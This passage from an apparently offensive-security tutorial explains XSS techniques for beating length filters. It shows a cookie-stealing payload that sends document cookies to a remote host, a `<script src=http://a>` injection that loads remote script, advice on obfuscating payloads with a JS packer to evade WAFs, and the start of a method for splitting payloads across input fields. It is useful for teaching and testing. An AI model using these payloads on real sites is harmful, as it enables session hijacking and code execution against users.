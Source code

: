 * ✅ *Only 28 bytes*
* Calls `open()` to send a request to `a`, appending the cookie as a path.
* Works because most browsers allow protocol-relative URLs (`//a/...`).

#### Injecting into HTML

```html
<script src=http://a></script>
```

* ✅ *30 bytes*
* Browser fetches and executes remote script from `http://a`.

---

### 🧠 Why It Works:

* Apps often apply filters based on **length assumptions** — expecting large payloads.
* This trick slips in **small functional code**, sometimes bypassing both WAFs and backend length filters.

---

### 🔥 Extra Tip:

Use **Dean Edwards' JS Packer** to compress longer scripts:

> [http://dean.edwards.name/packer/](http://dean.edwards.name/packer/)

This helps you:

* Remove whitespace
* Encode obfuscated scripts
* Fit more logic into fewer characters

---

## ✅ Technique 2: 🧩 Spanning the Payload Across Fields

### 💡 Idea:

Split your full XSS payload across **multiple input fields**, which are injected into **different HTML elements** in the response.

Each field holds a **partial string**, and when rendered together, the browser reconstructs the full script.

---

### 🧠 Example Breakdown:

#### Original URL:

```
https://myapp.com/account.php?page_id=244&seed=129402931&mode=normal
```
